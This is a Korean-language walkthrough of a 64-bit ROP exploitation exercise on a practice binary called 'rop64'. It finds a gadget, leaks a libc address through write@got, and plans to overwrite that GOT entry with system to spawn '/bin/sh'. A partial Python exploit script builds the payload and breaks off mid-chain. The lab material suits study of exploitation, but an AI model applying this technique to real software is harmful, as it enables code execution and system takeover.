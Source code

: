 - 스택 버퍼 오버플로우 취약점이 존재
- pop rdi; pop rsi; pop rdx; ret 코드 가젯의 주소 알아내기

![image](https://user-images.githubusercontent.com/59410565/119144895-1a064500-ba84-11eb-9c85-54cbb704e3d4.png)

- 해당 코드 가젯은 0x40056a 주소에 존재한다. 찾은 코드 가젯을 이용해 write 함수를 호출한 뒤 write@got에 저장되어 있는 값을 출력해서 라이브러리 주소를 알아내자.

![image](https://user-images.githubusercontent.com/59410565/119152245-19bd7800-ba8b-11eb-8441-86933370c1b5.png)

![image](https://user-images.githubusercontent.com/59410565/119147589-b5001e80-ba86-11eb-8892-2e9eb5760573.png)

-> write@plt : 0x400430 / write@got.plt : 0x601018

-> read@plt : 0x400440 / read@got.plt : 0x601020

![image](https://user-images.githubusercontent.com/59410565/119252977-e9d8b680-bbe9-11eb-866c-2da623e89b3d.png)

-> write offset : 0xf73b0

-> system offset : 0x453a0

- 이후 알아낸 라이브러리 주소를 통해 write@got를 system 함수로 덮어쓰고 "/bin/sh" 문자열을 입력한다.

```python
# rop64.py
import struct
import subprocess
import os
import pty
import time
def readline(fd):
  res = ''
  try:
    while True:
      ch = os.read(fd, 1)
      res += ch
      if ch == '\x20':
        return res
  except:
    raise
def read(fd, n):
  return os.read(fd, n)
def writeline(proc, data):
  try:
    proc.stdin.write(data + "\n")
  except:
    raise
def p64(val):
  return struct.pack("<Q", val)
def u64(data):
  return struct.unpack("<Q", data)[0]
out_r, out_w = pty.openpty()
s = subprocess.Popen("./rop64", stdin=subprocess.PIPE, stdout=out_w)
print `read(out_r, 6)`
# write(1, 0x601018, 8)
payload  = "A"*264         # buf padding
payload += p64(0x40056a)   # pop rdi; pop rsi; pop rdx; ret
payload += p64(1)          # fd
payload += p64(0x601018)   # write@got
payload += p64(8)          # 8 
payload += p64(0x400430)   # write_plt 
# read(0, 0x601018, 16)
payload += p64(0x40056a)   # pop rdi; pop rsi; pop rdx; ret
payload += p64(0)          # fd
payload += p64(0x601018)   # write@got
```